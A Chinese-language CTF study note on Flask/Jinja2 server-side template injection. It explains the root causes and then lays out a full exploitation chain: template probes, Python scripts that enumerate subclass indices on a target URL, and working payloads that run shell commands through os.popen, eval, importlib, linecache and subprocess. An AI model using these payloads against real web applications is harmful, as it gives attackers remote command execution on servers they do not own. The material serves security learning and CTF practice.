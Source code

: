 ```yaml
---
title: ssti
description: ssti笔记
tags:
  - CTF
  - WEB
categories:
  - 笔记
cover: 'https://tuchuang.voooe.cn/images/2024/05/05/_202405052101082.jpg'
abbrlink: ssti注入[5]
date: 2024-05-15 22:40:00
---
```


## ssti漏洞成因
ssti服务端模板注入，ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。本文主要对ctf中的flask模板注入进行分析。

## 常用python魔术方法：


> __class__ 返回类型所属的对象
> 
> __base__ 返回该对象所继承的基类
> __mro__ 返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
> __bases__  以元组形式返回类型对象的全部基类
>
>//以上三种都是用于寻找基类
>  
> __subclasses__ 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
>  
> __init__ 类的初始化方法
>  
> __globals__ 对包含函数全局变量的字典的引用
>  
> __builtins__  builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以可以直接调用引用的模块
> 

## 基础流程：
### 解题思路
变量->对象->基类->所有子类->通过 globals 来获取os,file等可以执行命令/读取文件的module
![](https://s2.loli.net/2024/05/14/X1w2jU7O3raZb5d.png)

### 判断注入点(变量)
假设为get参数name
?name={{7*7}} -> 49 则表示注入成功

### 带出对象
选择以下任一格式，用class带出其对象(类)
```
{{''.__class__}} -> <class 'str'>
{{().__class__}} -> <class 'tuple'>
{{[].__class__}} -> <class 'list'>
{{{}.__class__}} -> <class 'dict'>
...
```
> 以下用''作例子。

### 引出object(基类)
```
{{''.__class__.__base__}}
{{''.__class__.__mro__}}
{{''.__class__.__mro__[0]}}
{{''.__class__.__bases__}}
{{''.__class__.__bases__[0]}}
```
### 引出基类下的所有子类
利用subclasses寻找可以利用的子类
```
{{''.__class__.__base__.subclasses__()}}
```
一般情况下会得到许多子类，这时可以通过手工，脚本或工具定位子类的位置

### 遍历python环境中类的脚本：
```python
#get请求
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
#http请求头，可以用抓包工具抓一份自己的。
for i in range(500):
    url = "http://xxx.xxx.xxx.xxx:xxxx/?get参数={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url,headers=headers)
    if 'FileLoader' in res.text: #以FileLoader为例
        print(i)

# 得到编号为79
```
```python
#post请求
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
#http请求头，可以用抓包工具抓一份自己的。
for i in range(500):
    url = "http://xxx.xxx.xxx.xxx:xxxx/"
    postPara = {"post参数":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"}
    res = requests.post(url=url,headers=headers,data=postPara)
    if 'FileLoader' in res.text: #以FileLoader为例，查找其他命令时就用其他子类
        print(i)

# 得到编号为79
```
### 利用子类执行命令
> 可以用来执行命令的类有很多，其基本原理就是遍历含有eval函数即os模块的子类，利用这些子类中的eval函数即os模块执行命令。

#### eval函数执行命令
> 含有eval函数的类：
> warnings.catch_warnings
> WarningMessage
> codecs.IncrementalEncoder
> codecs.IncrementalDecoder
> codecs.StreamReaderWriter
> os._wrap_close
> reprlib.Repr
> weakref.finalize
> ...

payload:
```
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```
#### popen函数执行命令
> Python的 os 模块中有system和popen这两个函数可用来执行命令。其中system()函数执行命令是没有回显的。
> 我们可以使用system()函数配合curl外带数据；popen()函数执行命令有回显。
> 所以比较常用的函数为popen()函数，而当popen()函数被过滤掉时，可以使用system()函数代替。

我们可以通过os模块的**os._wrap_close**类引出popen来执行命令
```
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}
```
也可以直接使用popen来执行命令
```
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```
#### importlib类执行命令
> python有一个importlib类，可用load_module来导入你需要的模块。
> 而**frozen_importlib.BuiltinImporter**类就可以提供 Python 中 import 语句的实现（以及 __import__ 函数）。我么可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。

payload:
```
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```
#### linecache 函数执行命令
> linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块.
> 所以我们也可以利用这个 linecache 函数去执行命令。

payload:
```
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
```
#### subprocess.Popen 类执行命令
从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：os.system、os.popen 等函数。

payload: 
```
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}  
```
## 未完待续

参考:
[flask SSTI学习与总结](https://forum.butian.net/share/1371)
[SSTI服务端模板注入](https://www.bilibili.com/video/BV1sc411979h)
[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679?time__1311=n4%2BxnD0DBDgDc7D9DUO4BqOoT47KaW4WemD#toc-8)